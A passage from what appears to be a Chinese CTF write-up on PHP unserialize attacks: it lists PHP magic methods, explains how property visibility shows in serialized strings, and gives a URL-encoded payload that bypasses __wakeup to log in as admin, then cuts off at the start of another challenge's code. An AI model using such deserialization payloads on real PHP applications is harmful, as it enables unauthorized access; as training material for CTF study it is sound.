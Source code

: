 > 常用的内置方法：
>
> ```php
> __construct()：创建对象时初始化，当一个对象创建时被调用
> __wakeup() 使用unserialize时触发
> __unserialize() 使用unserialize时触发，有此函数就不调用__wakeup()
> __sleep() 使用serialize时触发
> __destruct()：结束时销毁对象，当一个对象销毁时被调用
> __invoke():当尝试以调用函数的方式调用一个对象时，该方法会被自动调用
> __get():在直接获取私有成员属性得时候，自动调用了这个__get()方法
> __toString():是快速获取对象的字符串信息的便捷方式
> __call()：在对象中调用一个不可访问方法时调用。
> __set()：设置私有属性值时调用
> __get()：访问私有属性值时调用(不存在的对象也可以，因为私有的你也不知道存不存在)
> __isset()：当对函数的私有成员或者不存在使用isset判断其是否存在时进入该函数
> __clone()：当利用clone克隆对象时调用
> ```

> 再说说**public** **private** **protected**的区别
>
> 在命令行输出时，三个没多大区别
>
> ```php
> O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
> O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
> O:4:"Name":2:{s:11:"*username";s:5:"admin";s:11:"*password";i:100;}
> ```
>
> 但是用coke runner输出时你会发现输出不完全，你再用url编码一下就能看到端倪
> 实际上就是**private**和**protected**输出内容中用`%00`保护了一下数据，两个也有些许不同

看完代码，就发现无论怎么构造，开始的`__wakeup`始终将`username`赋为`guest`
所以需要绕过`__wakeup`

**反序列化字符串，当属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。**

依次可绕过此函数，最终的payload

```
O%3A4%3A"Name"%3A3%3A%7Bs%3A14%3A"%00Name%00username"%3Bs%3A5%3A"admin"%3Bs%3A14%3A"%00Name%00password"%3Bi%3A100%3B%7D
```



### [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

```